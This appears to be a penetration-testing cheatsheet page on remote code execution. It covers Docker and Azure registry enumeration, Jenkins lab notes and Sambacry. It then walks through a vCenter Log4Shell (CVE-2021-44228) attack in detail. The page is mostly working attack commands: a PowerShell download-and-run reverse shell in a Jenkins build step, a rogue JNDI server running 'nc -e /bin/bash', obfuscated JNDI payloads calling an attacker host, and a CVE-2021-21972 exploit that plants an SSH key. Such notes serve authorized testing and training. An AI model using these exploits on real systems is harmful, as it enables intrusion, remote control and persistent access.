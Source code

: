 ```yaml
---
layout: post
title: move / rce 2
category: 05-move
parent: cheatsheets
modified_date: 2024-11-28
permalink: /move/rce2
---
```


**Mitre Att&ck Entreprise**: 
* [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)
* [T1021  - Remote Services](https://attack.mitre.org/techniques/T1021/)

**Menu**
<!-- vscode-markdown-toc -->
* [docker](#docker)
	* [administration](#administration)
	* [grype-vuln-scan-with-scan](#grype-vuln-scan-with-scan)
	* [java-maven-applications](#java-maven-applications)
	* [jdbc-client](#jdbc-client)
	* [unsecure-azure-registry](#unsecure-azure-registry)
* [jenkins](#jenkins)
* [sambacry](#sambacry)
* [vcenter](#vcenter)
	* [CVE-2021-44228-VCenter](#CVE-2021-44228-VCenter)
	* [CVE-2021-44228-VCenter](#CVE-2021-44228-VCenter-1)
	* [CVE-2021-21972-VCenter](#CVE-2021-21972-VCenter)
* [rshell](#rshell)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

[](assets/images/pen-ta0007-discov-t1046-scan-net-svc.png)


## <a name='docker'></a>docker

!! MUST TO READ :
- [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Methodology%20and%20Resources/Container%20-%20Docker%20Pentest/#summary)
- [infosecwriteups - attacking-and-securing-docker-containers](https://infosecwriteups.com/attacking-and-securing-docker-containers-cc8c80f05b5b)

### <a name='administration'></a>administration
```
docker system info
ls -alps /var/lib/docker
docker inspect | jq 
```

### <a name='grype-vuln-scan-with-scan'></a>grype-vuln-scan-with-scan

```bash
grype <image> -o template -t ~/path/to/csv.tmpl
cut -f3 -d"," grivy_output.csv > /tmp/mycve.txt
while read cve; do toto=`echo $cve | tr -d \"`; grep -i $toto /usr/share/exploitdb/files_exploits.csv; done < /tmp/mycve.txt
```

Here's what the csv.tmpl file might look like:
```bash
"Package","Version Installed","Vulnerability ID","Severity"
```

### <a name='java-maven-applications'></a>java-maven-applications 
```
# extract application
jar xf app.jar

# find Spring properties files
find . -iname "*.properties"
find -iname "*.properties" -print | xargs grep -r "://"
find -iname "*.properties" -print | xargs grep -r "jdbc.*://"
find -iname "*.properties" -print | xargs grep -r "postgresql://"
```

### <a name='jdbc-client'></a>jdbc-client
```
alias jaqy='java -Dfile.encoding=UTF-8 -Xmx256m -jar ~/jaqy-1.2.0.jar'
jaqy

# jdbc:teradata
.protocol teradata com.teradata.jdbc.TeraDriver
.classpath teradata lib/terajdbc4.jar
.open -u dbc -p dbc teradata://127.0.0.1

# jdbc:postgresql
.protocol postgresql org.postgresql.driver
.classpath postgresql lib/postgresql-42.5.3.jar
.open -u dbc -p dbc postgresql://127.0.0.1
```

### <a name='unsecure-azure-registry'></a>unsecure-azure-registry
```
curl -s -k --user "USER:PASS" https://registry.azurecr.io/v2/_catalog | jq '.repositories'
curl -s -k --user "USER:PASS" https://registry.azurecr.io/v2/<image_name>/tags/list | jq '.tags'
podman pull --creds "USER:PASS" registry.azurecr.io/<image_name>:<tag>
```

- [https://aex.dev.azure.com/me?mkt=en-US](https://aex.dev.azure.com/me?mkt=en-US)

## <a name='jenkins'></a>jenkins

* Notes for the CRTP lab:
```sh
# 01 # jenkins # log in
# 02 # jenkins # select a project
# 03 # jenkins # add a build step as "windows batch command" 
powershell.exe iex (iwr http://172.16.100.83/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.83 -Port 443
# 04 # box # offer the download of "invoke-powershelltcp" with HFS.exe
# 05 # box # listen connecting reverse shells with "nc64.exe"
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
# 06 # jenkins # build the project
```
![move rce jenkins](/assets/images/move_rce_jenkins_crtp_1.png)
![move rce jenkins](/assets/images/move_rce_jenkins_crtp_2.png)

## <a name='sambacry'></a>sambacry

* CVE ID : CVE-2017-7494
* Date: 01/06/2017
* Snort rules : [ptresearch github](https://github.com/ptresearch/AttackDetection/blob/master/CVE-2017-7494/CVE-2017-7494.rules)
 
▶️ PLAY :
![Pentest Linux Sambacry](/assets/images/pen-lin-smb-rce-2017-7494_1.png)
![Pentest Linux Sambacry](/assets/images/pen-lin-smb-rce-2017-7494_2.png)
![Pentest Linux Sambacry](/assets/images/pen-lin-smb-rce-2017-7494_3.png)
![Pentest Linux Sambacry](/assets/images/pen-lin-smb-rce-2017-7494_4.png)

## <a name='vcenter'></a>vcenter

* service-port   : 
* service-process: 
* artifacts      : 

### <a name='CVE-2021-44228-VCenter'></a>CVE-2021-44228-VCenter

```bash
# install
git clone https://github.com/veracode-research/rogue-jndi.git
apt install default-jdk
apt install java-common
apt install java-package

# check if Vcenter version is vulnerable
curl -ski https://1.2.3.4/ui/login | grep Location

# tmux windows 0 splitting
Ctrl-b %
Ctrl-b ->
Ctrl-b "

## cmds to run consequently in tmux windows 1, 2 and 3 

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

# HOOK STEP 2: run a rogue LDAP server that hook VCenter, executing netcat back to us 
sudo java -jar target/RogueJndi-1.1.jar --command "nc -e /bin/bash 1.1.1.1 4242" --hostname "1.1.1.1"

# CHECK: 1/ the LDAP, and 2/ the netcat, hooks come back
sudo tcpdump -ni eth0 host 1.2.3.4

# tmux windows 1 splitting
Ctrl-b c
Ctrl-b %
Ctrl-b ->
Ctrl-b "

# REVERSE SHELL: 
nc -lvnp 4242
```

### <a name='CVE-2021-44228-VCenter-1'></a>CVE-2021-44228-VCenter
```bash
# install

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${env:ENV_NAME:-j}ndi\${env:ENV_NAME:-:}\${env:ENV_NAME:-l}dap\${env:ENV_NAME:-:}//1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${::-j}\${::-n}\${::-d}\${::-i}:\${::-l}\${::-d}\${::-a}\${::-p}://1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${lower:j}ndi:\${lower:l}\${lower:d}a\${lower:p}://1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

### <a name='CVE-2021-21972-VCenter'></a>CVE-2021-21972-VCenter
```bash
sudo python3 CVE-2021-21972.py -t 1.2.3.3 -f /root/.ssh/id_rsa.pub -p /home/vsphere-ui/.ssh/authorized_keys -o unix
git clone https://github.com/ptoomey3/evilarc.git
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p '/home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
cd ../CVE-2021-21972/
sudo python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.4
```

## <a name='rshell'></a>rshell
[database](https://shell-storm.org/shellcode/index.html)
```sh
# run bash via python
python -c 'import pty; pty.spawn("/bin/bash")'
```
